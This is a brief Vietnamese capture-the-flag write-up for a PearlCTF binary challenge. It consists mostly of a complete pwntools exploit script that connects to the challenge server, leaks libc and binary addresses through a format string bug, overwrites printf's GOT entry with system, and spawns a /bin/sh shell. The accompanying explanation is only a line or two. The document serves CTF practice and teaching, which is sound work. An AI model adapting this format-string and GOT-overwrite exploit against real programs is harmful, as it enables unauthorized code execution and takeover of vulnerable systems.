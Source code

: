 checksec: ta hoàn toàn có thể overwrite `got` , ở đây ta có thể leak libc rồi ret2libc cũng được  tuy nhiên mình sẽ overwrite got 

![image](https://hackmd.io/_uploads/BkfjZ83oJl.png)

- mình sẽ chọn overwrite got của `printf`

exp: 

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./chall_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = exe

#p = process()
p = remote('mr---ropot.ctf.pearlctf.in', 30009)

p.sendline(b'2')
payload = b'|%17$p|%13$p|'
input()
p.sendlineafter(b'Did you like the fact? Leave a response:',payload)
p.recvuntil(b'|')
libc.address = int(p.recvuntil(b'|')[:-1],16) - 0x2a1ca
exe.address = int(p.recvuntil(b'|')[:-1],16) - 0x15c3
log.info(f'libc: {hex(libc.address)} , exe: {hex(exe.address)}')

gadget = libc.sym.system
package = {
        gadget & 0xffff: exe.got.printf,
        gadget >> 16 & 0xffff: exe.got.printf+2,
}
order = sorted(package)

payload = f'%{order[0]}c%10$hn'.encode()
payload += f'%{order[1] - order[0]}c%11$hn'.encode()
payload = payload.ljust(32,b'a')
payload += flat(
    package[order[0]],
    package[order[1]],
)

p.sendline(b'2')
input()
p.sendline(payload)
p.sendline(b'2')
p.sendline(b'/bin/sh\x00')

p.interactive()

```